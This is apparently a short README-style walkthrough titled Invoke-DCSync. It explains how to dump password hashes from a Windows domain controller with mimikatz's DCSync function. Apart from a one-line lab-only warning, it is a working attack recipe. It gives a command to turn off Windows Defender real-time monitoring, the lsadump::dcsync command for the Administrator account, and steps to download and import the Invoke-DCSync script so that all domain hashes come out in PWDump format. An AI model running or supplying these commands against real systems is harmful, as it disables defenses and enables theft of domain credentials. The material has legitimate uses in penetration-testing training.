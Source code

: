 # Invoke-DCSync
Invoke-DCSync
Reference: https://adsecurity.org/?p=1729
Reference: https://silentbreaksecurity.com/invoke-dcsync-because-we-all-wanted-it/
Goal: retrieve password hashes from all user accounts on a domain controller using the mimikatz DCSync function

Warning：Only do this in a lab environment.

mimikatz implemented a tool called DCSync, this allows mimikatz to impersonate a Domain Controller and attempt to retrieve all password hashes from another domain controller.

You may need to disable Windows Defender

Open up PowerShell as an administrator and type

$ Set-MpPreference -DisableRealtimeMonitoring $true
Start mimikatz

$ lsadump::dcsync /domain:test.local /user:Administrator
Now you have the password hash from that user

This required that you have Administrator access, specifically the Get-Replication-Changes-All Common Name attribute

Can use the Invoke-DCSync module to extract all hashes.

Download from: https://gist.github.com/monoxgas/9d238accd969550136db

$ Import-Module ./Invoke-DCSync.ps1
$ Invoke-DCSync -PWDumpFormat
